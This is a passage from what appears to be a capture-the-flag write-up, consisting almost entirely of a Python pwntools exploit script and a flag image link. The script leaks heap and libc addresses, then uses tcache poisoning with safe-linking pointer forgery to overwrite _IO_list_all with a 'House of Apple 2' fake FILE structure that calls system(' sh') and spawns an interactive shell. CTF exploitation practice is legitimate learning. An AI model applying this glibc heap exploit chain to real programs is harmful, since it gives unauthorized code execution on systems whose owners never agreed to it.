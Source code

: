 ```python

    leak = get(0, 0)
    heapBase = (u64(leak[0x42d:0x42d + 8]) << 12) - 0x12000
    success(GOLD_TEXT(f"Leak heapBase: {heapBase:#x}"))
    libcBase = u64(leak[0x223d:0x223d + 8]) - main_arena - 0x60 # unsorted bin offset
    success(GOLD_TEXT(f"Leak libcBase: {libcBase:#x}"))
    libc.address = libcBase

    heap = heapBase + 0x12330
    # House of Apple 2 payload
    file = flat({
        0:      b'  sh;\0',
        0x28:   1,
        0x68:   libc.symbols['system'],
        0xa0:   heap,
        0xd8:   libc.symbols['_IO_wfile_jumps'],
        0xe0:   heap,
    }, filler=b'\0')

    tosend = flat(b'\x30'.ljust(0x3fd, b'\0'), {
        8:      0x21, # tcache bin 0
        0x10:   PROTECT_PTR(heapBase + 0x122e0, 0), # 0x20's fd
        0x28:   0x411,  # next tcache
        0x50:   file,   # force file at that 0x410 chunk
        0x438:  0x31,   # make heap command happy
        0x468:  0x31,   # our 0x30 tcache to hijack
        0x470:  PROTECT_PTR(heapBase + 0x12740, libc.symbols['_IO_list_all'])
    }, filler=b'\0')

    edit(0, 0, 0x890, tosend)
    for _ in range(6):
        edit(0, 0, 0x20, b'\x30skip')
    edit(0, 0, 0x20, p64(heap))
    leave()
    
    sh.clean()
    sh.interactive()
    sh.close()
```

![flag](assets/dbFlag.png)
